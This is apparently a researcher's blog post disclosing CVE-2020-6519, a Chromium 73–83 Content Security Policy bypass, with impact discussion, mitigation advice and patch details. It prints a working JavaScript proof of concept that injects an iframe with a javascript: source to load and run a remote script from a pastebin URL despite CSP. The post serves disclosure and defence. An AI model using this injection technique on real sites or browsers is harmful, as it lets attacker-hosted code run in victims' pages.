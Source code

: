 ```yaml
---
enabled: true
layout: post
tags: Discovery,Browser,Top,CVEs,Vulnerabilities,Security,JavaScript,Research,
title: CVE-2020-6519 - Chromium 83 Zero Day Full CSP Bypass Cross Platforms
url: https://weizman.github.io/
date: 02/09/2020
description: This is the story of how I found and helped Google patch a vulnerability in Chrome browser that could have allowed attackers to fully bypass CSP rules since Chrome 73 (March 2019), and how researching it taught me that today's CSP mechanism design is the reason no one uses CSP correctly and therefore many of the biggest websites in the world are exposed to this vulnerability.
keywords: chromium, exploit, vulnerability, CSP, javascript, web, security
---
```


> tl;dr - This is the story of how I found and helped **Google** [patch](https://chromereleases.googleblog.com/2020/07/stable-channel-update-for-desktop.html#:\~:text=Gal%20Weizman%20(@WeizmanGal)%20of%20PerimeterX) a [**vulnerability in Chrome browser**](https://nvd.nist.gov/vuln/detail/CVE-2020-6519) that could have allowed attackers to [**fully bypass CSP rules**](https://crbug.com/1064676) since Chrome 73 (March 2019), and how researching it taught me that today's CSP mechanism design is the reason **no one uses CSP correctly and therefore many of the biggest websites in the world are exposed to this vulnerability**.

### Bypassing CSP completely can be very bad..

I was extremely surprised when I discovered this vulnerability affecting [Chromium](https://www.chromium.org/) based browsers  - Chrome, Opera, Edge -  on Windows, Mac and Android that allowed attackers to fully bypass CSP rules on Chrome versions 73 (March 2019) through 83 (July 2020).

To better understand the magnitude of this vulnerability - the potentially impacted users are in the billions, with Chrome having over two billion users, and more than 65% of the browser market on one hand, and some of the most popular sites on the web being vulnerable to this CVE on the other hand.

Vulnerable sites included [Facebook](https://www.facebook.com/), [WellsFargo](https://www.wellsfargo.com/), [Gmail](https://gmail.com/) , [Zoom](https://zoom.us/), [Tiktok](https://www.tiktok.com/en/), [Instagram](https://instagram.com/), [WhatsApp](https://whatsapp.com/), [Investopedia](https://www.investopedia.com/), [ESPN](https://www.espn.com/), [Roblox](https://www.roblox.com/), [Indeed](https://www.indeed.com/), [Blogger](https://www.blogger.com/), [Quora](https://www.quora.com/) and more.

So what was the vulnerability exactly?

### Break CSP Down Completely With A One-Liner

You are more than welcome to check out the [POC files as disclosed to Google Chrome project](https://github.com/weizman/CVE-2020-6519/tree/master/POC) originally if you are interested in the exploit and in running it, but the following sum up should cover it mostly:

Normally, an attempt to run the following JS code will be blocked by the browser when the site’s CSP setting disallows the source or actions performed by the script:

```javascript
/* this is a script that pops an alert message */
top._CVE_URL = 'https://pastebin.com/raw/dw5cWGK6';

/* this call will fail due to CSP */
var s = document.createElement("script"); s.src = top._CVE_URL; document.body.appendChild(s);
```

However, running the same JS code via `javascript:` src of an iframe will bypass completely the configured CSP on that website:

```javascript
/* this is a script that pops an alert message */
top._CVE_URL = 'https://pastebin.com/raw/dw5cWGK6';

/* this call will succeed although CSP */
document.querySelector('DIV').innerHTML="<iframe src='javascript:var s = document.createElement(\"script\");s.src = \"https://pastebin.com/raw/dw5cWGK6\";document.body.appendChild(s);'></iframe>";
```

**Simple yet very powerful!** Billions of browsers on any OS would have blindly allowed CSP privilege escalation for any unwanted code in a website:

![5](/content/img/5a.gif)

It is worth mentioning that some sites protected by CSP, like [Twitter](http://twitter.com/), [Github](http://github.com/), [LinkedIn](https://www.linkedin.com/), [Google Play Store](https://play.google.com), [Yahoo's Login Page](https://login.yahoo.com), [PayPal](https://paypal.com) and [Yandex](https://yandex.ru) were not vulnerable to [CVE-2020-6519](https://github.com/weizman/CVE-2020-6519/), as these implemented CSP using [nonce](https://content-security-policy.com/nonce/) or [hash](https://content-security-policy.com/hash/) and by that added a layer of security that is implemented on the server side as well as the client side.

<ins class="adsbygoogle" style="display:block; text-align:center;" data-ad-layout="in-article" data-ad-format="fluid" data-ad-client="ca-pub-1379968351324902" data-ad-slot="5348991370"></ins><script>(adsbygoogle = window.adsbygoogle || []).push({});</script>

### What is the potential impact?

[Content Security Policy (CSP)](https://content-security-policy.com/) is basically a set of rules set by the website that the browser's role here is to respect and enforce in the name of the website.

With these rules the website can ask the browser to block/allow specific request calls, specific types of javascript code execution and more, thus ensuring stronger security for site visitors and protecting them from potential injected malicious scripts or [cross-site-scripting (XSS)](https://owasp.org/www-community/attacks/xss/).

Having a vulnerability in Chrome’s CSP enforcement mechanism doesn’t directly mean that sites are breached, as the attackers also need to manage to get the malicious script called from the site (which is why the vulnerability was classified as medium severity).

However, having a vulnerability in a security mechanism that is trusted by websites to enforce stricter policies on 3rd party scripts has vast implications, as some of the largest sites rely on CSP to enforce their policy, and may give them the comfort of approving 3rd party scripts of vendors and partners thinking they are safe with a strict policy enforced.

Besides the sites mentioned above (representing more than 2.5 billion users), it is safe to estimate that thousands of websites across industries, including e-commerce, banking, telecommunications, government, and utilities were left unprotected from a scenario where hackers managed to inject malicious code into them.

### Why should we be worried about a vulnerability that is exploitable only when an attacker gained code execution on a website? In that case, bypassing CSP wouldn't make much of a difference..

I disagree.

It is extremely risky when a vulnerability is found in the security mechanism that prevents such breaches, as the impacted sites actively relied on CSP to provide the protection tier.

About 6 months ago I found a [persistent XSS in WhatsApp Web/Desktop applications and demonstrated the severity of this vulnerability](https://weizman.github.io/page-whatsapp-vuln/).

Part of the reason the severity was so high is because their CSP was misconfigured in such a way that allowed me to inject scripts that could communicate with any domain I wanted.

This is why. Finding ways to execute code on a website you don't control is indeed extremely difficult.
But once someone has, you'd wish your website had another layer of security that might stop them from causing real damage.

You can read all about this research right [here](https://weizman.github.io/page-whatsapp-vuln/).

### Test It Yourself

I was easily able to test all of those websites by creating a [simple script](https://github.com/weizman/CVE-2020-6519/blob/master/CVE-2020-6519-TEST-IT-YOURSELF.js) that when executed via the devtools console will let you know immediately whether the current browser/website is vulnerable to [CVE-2020-6519](https://nvd.nist.gov/vuln/detail/CVE-2020-6519) due to misconfigured CSP/Old Chrome or not. It does that by trying to load an external js script from [https://pastebin.com/raw/XpHsfXJQ](https://pastebin.com/raw/XpHsfXJQ) both normally and by trying to load the exploit as well:

> _Browser and Website are vulnerable_

![2](/content/img/2a.jpg)

> _Browser is vulnerable but Website is not_

![1](/content/img/1a.jpg)

> _Browser is not vulnerable_

![4](/content/img/4a.jpg)

### Advice For Website Owners And Users

**Ensure your CSP policies are well defined**

Consider adding additional layers of security such as [nonce](https://content-security-policy.com/nonce/)s or [hash](https://content-security-policy.com/hash/)s.
This will require some server-side implementation.

**CSP alone is not enough for most websites so, consider adding additional layers of security**

Consider JavaScript-based detection and monitoring of [Shadow Code for real-time mitigation of web page code injection](https://www.perimeterx.com/tech-blog/2020/shadow-code-what-is-it-and-why-should-you-care/).

**Make sure your Chrome browser version is 84 or higher.**

### About The Patch

This vulnerability was [patched](https://crbug.com/1064676) by the Chromium project on Chrome 84, was tagged as medium ([CVSS 6.5](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?name=CVE-2020-6519&vector=AV:N/AC:L/PR:N/UI:R/S:U/C:N/I:H/A:N&version=3.1&source=NIST)) risk and was granted $3,000.

<ins class="adsbygoogle" style="display:block; text-align:center;" data-ad-layout="in-article" data-ad-format="fluid" data-ad-client="ca-pub-1379968351324902" data-ad-slot="5348991370"></ins><script>(adsbygoogle = window.adsbygoogle || []).push({});</script>